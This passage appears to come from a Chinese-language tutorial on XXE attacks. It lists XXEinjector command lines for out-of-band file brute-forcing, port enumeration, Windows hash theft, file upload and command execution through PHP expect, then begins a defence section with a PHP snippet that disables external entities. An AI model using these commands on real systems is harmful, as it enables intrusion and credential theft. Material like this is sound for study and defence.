 
二次漏洞利用：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt
```

使用HTTP带外方法和netdoc协议对文件进行爆破攻击：

```
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc
```

通过直接性漏洞利用方式进行资源枚举：

```
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
```

枚举未过滤的端口：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
```

窃取Windows哈希：

```
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes
```

使用Java jar上传文件：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf
```

使用PHP expect执行系统指令：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls
```

测试XSLT注入：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt
```

记录请求信息：

```
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt
```

## XXE 漏洞修复与防御方案

1. 推荐使用开发语言提供的**禁用外部实体**的方法。

   PHP：

   ```
   libxml_disable_entity_loader(true);
   ```
